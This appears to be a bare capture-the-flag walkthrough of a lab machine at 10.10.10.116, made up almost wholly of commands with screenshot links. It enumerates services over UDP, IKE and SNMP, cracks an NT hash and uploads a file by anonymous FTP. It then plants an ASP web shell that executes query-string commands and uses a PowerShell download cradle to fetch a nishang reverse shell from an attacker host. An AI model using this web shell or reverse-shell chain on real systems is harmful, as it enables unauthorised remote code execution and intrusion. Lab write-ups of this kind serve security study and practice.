 ```
nmap -sU 10.10.10.116
```
![image](https://user-images.githubusercontent.com/33616880/232364715-ff3ffc38-74c1-4413-bfc3-fcae12865969.png)



```
ike-scan 10.10.10.116
```
![image](https://user-images.githubusercontent.com/33616880/232364778-a4a13ea3-021b-4d83-8b00-c03c57b5a620.png)



```
snmpwalk -v2c -c public 10.10.10.116
```
![image](https://user-images.githubusercontent.com/33616880/232364814-465dd54b-fd4a-41e8-a43e-41c669b5d4cd.png)



```
john hash -w=/usr/share/wordlists/rockyou.txt --format=NT
```
![image](https://user-images.githubusercontent.com/33616880/232364875-518777e7-95f3-41ef-bfbe-53774db9d249.png)



```
apt install strongswan
```
![image](https://user-images.githubusercontent.com/33616880/232364935-4cbb7254-df0b-420b-a78d-6829d4000f61.png)
![image](https://user-images.githubusercontent.com/33616880/232364951-64aa1c8c-7ab1-46bb-aed3-7e50852792e5.png)
![image](https://user-images.githubusercontent.com/33616880/232364962-c98b750a-4e75-45f0-aca8-610f44cd4254.png)



```
ipsec up conceal
```
![image](https://user-images.githubusercontent.com/33616880/232365041-1bdb6e08-96cf-4bd8-bff2-0c379c88a5c8.png)



```
nmap -sT -p- 10.10.10.116
```
![image](https://user-images.githubusercontent.com/33616880/232365088-55b7420a-981a-49da-89f9-0a26f7f7fbdf.png)



![image](https://user-images.githubusercontent.com/33616880/232365141-15f38484-a572-42cd-88e0-94e3d5e6e527.png)



```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://10.10.10.116/FUZZ -fc 403 -e .aspx,.php,.txt,.html
![image](https://user-images.githubusercontent.com/33616880/232365179-3ae6cec7-5cc5-4768-8365-bfd5630c7cb4.png)
```
![image](https://user-images.githubusercontent.com/33616880/232365198-6ebb3b00-d084-45d0-a9f8-3dc461c794d0.png)



```
ftp 10.10.10.116 : anonymous
put test.txt
```
![image](https://user-images.githubusercontent.com/33616880/232365238-86c2e89e-90ad-46d2-83fe-6445f34f048d.png)
![image](https://user-images.githubusercontent.com/33616880/232365246-f42f2534-6a5c-45af-a10b-33db27d89131.png)



```
<%response.write CreateObject("WScript.Shell").Exec(Request.QueryString("cmd")).StdOut.Readall()%>
```
```
http://10.10.10.116/upload/cmd.asp?cmd=whoami
```
![image](https://user-images.githubusercontent.com/33616880/232366101-57441e0d-fc94-4fbb-99d5-d55b856e0ad0.png)
![image](https://user-images.githubusercontent.com/33616880/232366110-7f6082bd-20b8-48b0-a5f1-dadc070b338f.png)
![image](https://user-images.githubusercontent.com/33616880/232366126-b3fc0a5b-6379-4593-9ff0-68a460f93c88.png)



```
git clone https://github.com/samratashok/nishang.git
cp /opt/nishang/Shells/Invoke-PowerShellTcp.ps1 .
Add payload a line to the end: Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.15 -Port 4444
http://10.10.10.116/upload/cmd.asp?cmd=powershell%20iex(New-Object%20Net.Webclient).downloadstring(%27http://10.10.14.7/Invoke-PowerShellTcp.ps1%27)
```
![image](https://user-images.githubusercontent.com/33616880/232365388-518308e7-efb2-4b48-adef-583573a84920.png)
![image](https://user-images.githubusercontent.com/33616880/232365400-966934e9-4409-414f-8ef7-41e86897b1b6.png)
![image](https://user-images.githubusercontent.com/33616880/232365409-b30bd056-5ec7-4a2b-9540-6f0eb3417dd7.png)



```
whoami /priv
```
![image](https://user-images.githubusercontent.com/33616880/232365422-2e537ec4-2461-4de6-b1ef-bb85995c0182.png)

